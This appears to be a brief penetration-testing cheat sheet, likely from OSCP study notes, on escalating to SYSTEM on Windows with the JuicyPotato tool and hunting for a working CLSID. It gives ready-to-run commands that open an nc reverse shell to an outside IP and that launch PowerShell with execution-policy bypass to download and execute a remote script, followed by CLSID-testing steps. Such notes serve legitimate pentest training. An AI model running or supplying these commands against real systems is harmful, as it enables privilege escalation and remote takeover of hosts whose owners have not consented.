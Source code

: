 # Juicy Potato Priv Esc

1. Execute JuicyPotato.exe to see if default CLSID will work

- Calling back using nc reverse shell:
`c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *`

- Calling back using powershell reverse shell:
`.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *`

 2. Default CLSID Not working:

 a. If Default Doesnt run, use the `GetCLSID.ps1` and `join-object.ps1` scripts from `Scripts/OSCP/Win_Enum/Priv_Esc_Method`

   - Load `join-object.ps1` into the powershell session using:
     `import-module join-object.ps1`
    
   - Execute `GetCLSID.ps1` using:
     `.\GetCLSID.ps1`

 b. download the `test_clsid.bat` and configure the following before execution:
   - Change the path to the `CLSID.list` variable
     
   - execute the .bat file
     
   - when the port number changes, it signifies a working CLSID

 c. Test CLSID with JuicyPotato command. 
